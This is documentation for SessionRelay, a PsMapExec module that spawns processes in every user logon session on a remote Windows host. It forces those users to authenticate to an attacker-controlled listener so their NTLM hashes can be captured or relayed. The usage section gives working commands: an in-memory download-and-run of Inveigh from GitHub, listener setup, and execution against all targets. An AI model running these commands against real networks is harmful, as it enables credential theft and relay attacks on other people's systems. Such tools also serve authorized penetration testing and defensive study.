

# SessionRelay

Creates a cmd.exe process as each user logon session on the remote system and connects back to a non-existent share to the host specified by `-ListenerIP`. This can then be used with tools such as Inveigh or Responder to capture NTLMv2 hashes, or with ntlmrelayx to relay captured hashes.

For example, assuming the below output. We can see the remote host currently has the users standarduser and srv2019-admin within existing logon sessions. PsMapExec can force each one of these users to to connect to a non-existing share on a listener and we can capture their NTLMv1 or NTLMv2 hashes.

```powershell
C:\Users\SRV2019-Admin>quser
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
 standarduser                              1  Disc            7  04/08/2024 17:14
 srv2019-admin         console             2  Active      none   04/08/2024 17:18
```

### **Supported Methods**

* SMB&#x20;
* SessionHunter (WMI)
* WMI&#x20;
* WinRM

### Optional Parameters <a href="#optional-parameters" id="optional-parameters"></a>

<table><thead><tr><th width="181">Parameter</th><th width="97">Value</th><th>Description</th></tr></thead><tbody><tr><td>-ShowOutput</td><td>N/A</td><td>Displays each targets output to the console</td></tr><tr><td>-SuccessOnly</td><td>N/A</td><td>Display only successful results</td></tr></tbody></table>

## Usage

Before using the module, ensure a listener such as Inveigh or Responder is running. The below example covers usage for capturing hashes with Inveigh.

<pre class="language-powershell"><code class="lang-powershell"># Load Inveigh into memory
iex (iwr -UseBasicParsing https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1)
<strong>
</strong><strong># Execute Inveigh (as admin), ensuring to specify the current systems IP address
</strong>Invoke-Inveigh -ConsoleOutput Y -NBNS Y -mDNS Y -HTTPS Y -Proxy Y -IP 10.10.10.7

# Run PsMapExec, ensuring -ListenerIP is set to the same IP address as above.
PsMapExec -Targets all -Method wmi -Module sessionrelay -ListenerIP 10.10.10.7
</code></pre>

<figure><figcaption><p>Execution in PsMapExec</p></figcaption></figure>

<figure><figcaption><p>Inveigh Output</p></figcaption></figure>
